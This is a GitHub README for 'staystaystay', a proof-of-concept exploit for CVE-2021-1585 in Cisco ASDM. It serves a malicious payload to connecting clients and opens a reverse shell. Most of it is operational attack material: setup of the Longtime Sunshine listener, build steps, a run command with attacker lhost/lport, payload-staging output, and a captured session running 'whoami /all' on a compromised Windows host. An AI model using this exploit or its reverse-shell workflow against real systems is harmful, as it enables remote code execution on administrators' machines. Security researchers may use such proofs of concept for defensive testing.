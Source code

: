 # staystaystay

`staystaystay` is a proof of concept exploit for [CVE-2021-1585](https://nvd.nist.gov/vuln/detail/CVE-2021-1585), a man in the middle or evil endpoint RCE issue affecting Cisco ASA Device Manager (ASDM). The issue was originally discovered by [Malcolm Lashley](https://gist.github.com/mlashley/7d2c16e91fe37c9ab3b2352615540025) and disclosed in the summer of 2021. However, since the issue remains unpatched in the latest version (ASDM 7.17(1)), I stumbled upon this independently.

If a victim connects their ASDM to `staystaystay` then it will inject a [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine) payload resulting in a reverse shell. See the following video for an example:

* https://www.youtube.com/watch?v=07VO2JGTWR8

An AttackerKB write up can be found here:

* https://attackerkb.com/topics/0vIso8fLhQ/cve-2021-1585/rapid7-analysis

## Usage

Clone and execute [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine). It will listen on 1270 by default.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Build and run `staystaystay`. It was written by a lazy hack so it has some outside dependencies: `lzma` and `javac`. The host *must* use Java 1.8 because that is what the ASDM client requires. `lhost` and `lport` should point the `Longtime Sunshine`:

```sh
albinolobster@ubuntu:~/staystaystay$ mkdir build
albinolobster@ubuntu:~/staystaystay$ cd build/
albinolobster@ubuntu:~/staystaystay/build$ cmake ..
-- The C compiler identification is GNU 10.3.0
-- The CXX compiler identification is GNU 10.3.0
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Check for working C compiler: /usr/bin/cc - skipped
-- Detecting C compile features
-- Detecting C compile features - done
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Check for working CXX compiler: /usr/bin/c++ - skipped
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/staystaystay/build
albinolobster@ubuntu:~/staystaystay/build$ make
Scanning dependencies of target staystaystay
[ 50%] Building CXX object CMakeFiles/staystaystay.dir/src/main.cpp.o
[100%] Linking CXX executable staystaystay
[100%] Built target staystaystay
albinolobster@ubuntu:~/staystaystay/build$ sudo ./staystaystay --lhost 10.0.0.3 --lport 1270
[sudo] password for albinolobster: 
[+] User provided a connect back target of 10.0.0.3:1270
[+] Compiling Payload using `javac PDMApplet.java SgzApplet.java`
[+] Creating JAR entries
[+] Compressing jar entries with `lzma -z jars`
[+] Adding sgz wrapper
[+] Flushing the pdm.sgz to disk
[+] Copying pdm.sgz to the http server
[+] Changing working directory to ../http
[+] Starting python server on :443. Hope you are running as root... it's fine.
Generating a RSA private key
...............................................................................................................................................................................................................................................++++
.......++++
writing new private key to 'key.pem'
-----
Server running on https://0.0.0.0:443
```

Upon successful exploit you should get something like this:

```
albinolobster@ubuntu:~/longtime-sunshine$ nodejs ./longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 10.0.0.25:62981
$ agent 0
lowlevel@10.0.0.25$ exec whoami /all

USER INFORMATION
----------------

User Name        SID                                          
================ =============================================
okhuman\lowlevel S-1-5-21-259238101-1730513016-1302440715-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users              Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## Credit

* Taylor Swift - [Acoustic version](https://www.youtube.com/watch?v=JbiTT82XAo0&t=2423s)
